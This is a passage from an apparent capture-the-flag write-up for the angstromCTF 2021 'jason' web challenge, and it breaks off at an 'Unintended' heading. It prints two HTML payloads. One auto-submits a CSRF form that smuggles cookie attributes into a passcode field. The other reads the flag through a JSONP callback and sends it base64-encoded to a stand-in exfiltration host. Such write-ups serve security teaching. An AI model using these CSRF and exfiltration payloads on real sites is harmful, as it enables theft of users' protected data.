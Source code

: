 Now, all we need to do is append `; secure; samesite=none` to the cookie and then read flag using script tag. 

```html
<html>
    <head>
        <title>
            INTENDED
        </title>
        <meta name="referrer" content="no-referrer">
    </head>
    <body>
    <script>
            function load (data) {
                var x = data.items.map(i => ` ${i} `).join('')
                var y = btoa(x)
                window.open("https://exfiltrate/?fleg="+y);
            }

            window.open("/csrf_to_setcookie.html");
    </script>   
    <script src="https://jason.2021.chall.actf.co/flag?callback=load"></script>
    </body>
</html>

<!-- index.html -->
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta name="referrer" content="no-referrer">
    <title>Set Cookie domains</title>
</head>
<body>
    <form action="https://jason.2021.chall.actf.co/passcode" id="csrf-form" method="POST">
        <input name="passcode" value="; secure; samesite=none">
    </form>
    <script>document.getElementById("csrf-form").submit()</script>
</body>
</html>

<!-- csrf_to_setcookie.html  -->
```

Although this method is amazing, we failed to notice this while solving and resorted to an unintended way. 

<br />

## Unintended
